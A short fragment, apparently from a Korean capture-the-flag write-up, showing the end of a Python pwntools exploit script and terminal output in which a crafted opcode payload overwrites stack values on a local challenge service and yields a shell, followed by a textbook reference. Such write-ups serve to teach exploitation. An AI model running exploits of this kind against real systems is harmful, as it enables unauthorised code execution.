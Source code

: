 ```python
    payload += log(False, 1)

    r.sendafter(b"opcodes >", payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ ./ex.py
[+] Opening connection to localhost on port 7777: Done
[*] Switching to interactive mode
[!] I prepared log feature for you :)
# ...
[*] POP stack[0xffffffc5] == 0xf7a62aa0
[*] PUSH stack[0xffffffc5] = 0xf7a31432
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```


## 참고자료

[1] M. Dowd, J. McDonald and J. Schuh, “Chapter 13. Synchronization and State,” in *The Art of Software Security Assessment: Identifying and Preventing Software Vulnerabilities*. Boston, MA: Addison-Wesley, 2006, pp. 797-821.